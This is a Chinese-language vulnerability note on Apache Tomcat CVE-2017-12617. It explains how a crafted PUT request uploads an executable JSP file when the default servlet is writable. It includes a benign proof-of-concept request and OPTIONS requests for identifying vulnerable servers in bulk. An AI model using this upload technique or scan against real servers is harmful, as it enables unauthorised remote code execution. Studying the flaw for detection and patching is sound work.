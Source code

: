 # Apache Tomcat 任意代码执行漏洞（CVE-2017-12617）
# 漏洞描述

Apache Tomcat团队10月3日宣布，如果配置了默认servlet，则在9.0.1（Beta），8.5.23,8.0.47和7.0.82之前的所有Tomcat版本都包含所有操作系统上的潜在危险的远程执行代码（RCE）漏洞，CVE-2017-12617：远程代码执行漏洞。

只需参数readonly设置为false或者使用参数readonly设置启用WebDAV servlet false。此配置将允许任何未经身份验证的用户上传文件（如WebDAV中所使用的）。发现并阻止上传JavaServer Pages（.jsp）的过滤器可以避免这个问题。所以只要JSP可以上传，然后就可以在服务器上执行。

当开发人员修改配置Tomcat文件/apache-tomcat-8.5.20/conf/web.xml，将默认 servlet 的只读初始化参数设置为 false后，就开启了WebDAV servlet支持HTTP PUT 方法。攻击者可以利用此漏洞通过特制的请求将 JSP 文件上传到服务器。 然后可以请求这个 JSP，并且它包含的任何代码都将由服务器执行。

漏洞涉及到 DefaultServlet和 JspServlet，DefaultServlet的作用是处理静态文件 ，JspServlet 的作用是处理jsp 与jspx 文件的请求，同时DefaultServlet 可以处理 PUT 或 DELETE请求，这个漏洞的原因是通过构造特殊后缀名，绕过了tomcat检测，让它用DefaultServlet的逻辑去处理请求，从而PUT上传了jsp文件。

原理分析参考：https://mp.weixin.qq.com/s/wWkb079hUYOwDgVQqEqGZQ

## POC参考：

```
PUT /test.jsp/ HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 26


<%out.println("test");%>
```
访问http://127.0.0.1:8080/test.jsp 页面会出现test这个字符串


## 如何快速识别

- Tomcat CVE-2017-12617 任意代码执行漏洞批量识别？
+ 1、根据Tomcat版本判断可以确定是否受漏洞影响
+ 2、使用OPTIONS判断是否启用PUT

通过2次OPTIONS请求，第一次请求/ 根据报错信息得到tomcat版本，第二次判断是否支持PUT。两个条件满足，漏洞条件即可认为存在漏洞。

```
OPTIONS / HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 0


OPTIONS /xx任意地址 HTTP/1.1
Host: 127.0.0.1:8888
Content-Length: 0

返回：支持PUT 即可判定存在漏洞
HTTP/1.1 200 
Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS
Content-Length: 0
Date: Tue, 27 Jul 2021 12:27:25 GMT
```

